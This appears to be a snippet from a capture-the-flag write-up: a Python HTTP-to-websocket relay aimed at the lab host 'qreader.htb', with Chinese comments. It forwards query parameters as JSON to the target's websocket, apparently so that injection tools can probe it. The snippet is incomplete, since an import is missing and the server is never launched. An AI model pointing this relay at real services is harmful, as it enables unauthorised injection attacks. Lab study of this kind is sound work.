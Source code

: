 ```python
from urllib.parse import unquote, urlparse
from websocket import create_connection
import json
#ws_server = "ws://localhost:8156/ws"
#ws_server = "ws://qreader.htb:5789"

#发送websocket的函数
def send_ws(payload,ws_server):
    #创建一个websocket 连接句柄
	ws = create_connection(ws_server)
    
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	# For our case, format the payload in JSON
	#message = unquote(payload["data"]).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	
	data =payload
	print(type(data))
    # 将字典dumps成一个字符串的格式
	str_data = json.dumps(data)
	print((str_data))
	ws.send(str_data)
	resp = ws.recv()
	print(resp)
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
				key = urlparse(self.path).query.split('=',1)[0]
				#这里就是解释 key 和 value 放到一个字典中
				data = {key:payload}
				print(urlparse(self.path).path)
				print(urlparse(self.path))
				path = (urlparse(self.path).path)
                #socket靶机 开放websocket的端口
				ws_server = "ws://qreader.htb:5789"
				ws_server = ws_server +	path
				print(ws_server)
			except IndexError:
				payload = False
				
			if payload:
                #将上面解析的 query 传给发送websocket请求的函数
				content = send_ws(data,ws_server)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return
```